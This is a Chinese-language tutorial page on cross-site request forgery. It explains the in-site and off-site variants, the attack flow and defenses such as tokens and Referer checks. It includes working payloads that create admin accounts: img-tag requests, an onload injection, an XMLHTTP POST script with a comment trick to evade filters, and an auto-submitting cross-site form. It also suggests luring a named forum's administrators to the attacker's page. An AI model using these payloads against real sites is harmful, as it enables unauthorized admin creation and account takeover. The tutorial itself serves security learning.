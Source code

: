 CSRF
================================

简介
--------------------------------
 | CSRF（Cross-site request forgery）跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。

 ::

			CSRF漏洞一般分为站外和站内两种类型。
			CSRF站外类型的漏洞本质上就是传统意义上的外部提交数据问题。通常程序员会考虑给一些留言或者评论的表单
		加上水印以防止SPAM问题（这里，SPAM可以简单的理解为垃圾留言、垃圾评论，或者是带有站外链接的恶意回复），
		但是有时为了提高用户的体验性，可能没有对一些操作做任何限制，所以攻击者可以事先预测并设置请求的参数，在
		站外的Web页面里编写脚本伪造文件请求，或者和自动提交的表单一起使用来实现GET、POST请求，当用户在会话状态
		下点击链接访问站外Web页面，客户端就被强迫发起请求。
			CSRF站内类型的漏洞在一定程度上是由于程序员滥用类变量造成的。在一些敏感的操作中（如修改密码、添加用
		户等），本来要求用户从表单提交发起请求传递参数给程序，但是由于使用$_REQUEST或$_GET变量造成的。在一些敏感的
		操作中（如修改密码、添加用户等），本来要求用户从表单提交发起POST请求传递参数给程序，但是由于使用了_REQ
		UEST等变量，程序除支持接收POST请求传递的参数外也支持接收GET请求传递的参数，这样就会为攻击者使用CSRF攻击
		创造条件。一般攻击者只要把预测的请求参数放在站内一个贴子或者留言的图片链接里，受害者浏览了这样的页面就
		会被强迫发起这些请求。


利用方式
--------------------------------

伪造请求  使用$_REQUEST或$_GET
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 首先我们要找找该网站使用的程序是不是在网上能找到源码，如果能找到源码的话，就去分析后台管理员更改密码或者增加管理员的页面，然后分析管理员使用的是不是$_REQUEST接收参数，如果是的话，我们使用该XSS漏洞构造一个请求，比如前台发表留言中可以使用HTML代码，那么我们就嵌入一个IMG元素：
 | ``<img src="/admin/admin_add.asp?name=xxx&psd=yyy" />`` 
 | 当管理员登录管理后台后看到包含img的页面的时候，就伪造了一个增加后台管理员的请求，而该请求是由管理员发出的，所以顺利的增加了一个新的管理员。

 | 如果是可视文本编辑器，可以尝试使用输入：
 | ``http://www.123.com/xxx.jpg" οnlοad="window.open('/admin/admin_add.asp?name=xxx&psd=yyy')``
 | 这样最终会构造出：
 | ``<img src="http://www.123.com/xxx.jpg" οnlοad="window.open('/admin/admin_add.asp?name=xxx&psd=yyy',0,0)" />``

伪造请求  使用$_POST
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 当后台接收增加管理员或更改管理密码的变量时使用的是$_POST方式，那么第一种方法无效，我们视情况而定，如果没有过滤<script>，我们可以通过ajax方式来伪造请求，如：

 ::

		< sc /* xss */ ript >
		var  aj  =   new  ActiveXObject( " MSXML2.XMLHTTP.3.0 " );
		aj.open( " POST " ,  " /admin/admin_add.asp " ,  false );
		var  postdata  =   ' name=xxx&psd=yyy ' ;
		aj.setRequestHeader( " Content-Type " , " application/x-www-form-urlencoded " ); 
		aj.send(postdata);
		< / scr / * xss * / ipt>
		注：/*xss*/是HTML注释，用来绕过简单的对script代码块的过滤。 

跨站伪造请求 使用$_GET 或 $_REQUEST
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 与第一种伪造请求的方式相似，但是第一种伪造请求是利用站内的xss漏洞进行的，而跨站伪造请求，是站外发起的，比如我在我的博客的首页放了这样一个图片
 | ``<img src=" http://www.dvbbs.com/admin/admin_add.asp?user=xxx&psd=yyy"/>``
 | 然后我跑到dvbbs上发帖子，“勾引”动网论坛的管理员来我的博客，如果动网论坛的管理员已经登录了他的管理后台，然后使用共享进程的浏览器（目前基于ie内核的myie,maxton等等还有firefox都是共享进程的）来访问我的博客，那么他的后台就会被加入一个用户。 

跨站伪造请求 使用$_POST（0day）
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 如果入侵目标的管理后台使用的是$_POST方式来接受变量，那么我们无法在我们的网站跨站使用ajax的post方式提交数据过去，因为ajax是无法跨域的。
 | 但是我们可以在我们的网站放一个form，里面填写好数据，form的action为要利用的有漏洞的页面，然后当有人打开该页面的时候，我们就用js控制该form进行submit，ajax虽然不能跨域，但向域之外的地址提交form总是可以的。

 ::
 
		<form action="http://www.***.com/transfer.php" method="post" id="forms">
			<input type="text" name="username" value="" />
			<input type="password" name="pwd" value="" />
			<input type="submit" value="提交"/>
		</form>
		<script>
		forms.submit();
		</script>

 | 总之，第3，4种方法成功几率要小一些，因为我们要想办法让已经登录自身后台的管理员，使用共享session的浏览器访问我们的伪造请求的页面，有一点社会工程学的技术含量。 
 
攻击原理及过程
--------------------------------

	|csrf|

- 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
- 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
- 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
- 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
- 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

防御
--------------------------------
- 通过CSRF-token或者验证码来检测用户提交
- 验证Referer/Content-Type
- 对于用户修改删除等操作最好都使用POST操作
- 避免全站通用的cookie，严格设置cookie的域


参考链接
--------------------------------

- `demo <https://www.github.com/jrozner/csrf-demo>`_
- `Wiping Out CSRF <https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f>`_
- `Neat tricks to bypass CSRF protection <https://www.slideshare.net/0ang3el/neat-tricks-to-bypass-csrfprotection>`_

.. |csrf| image:: ../images/csrf.jpg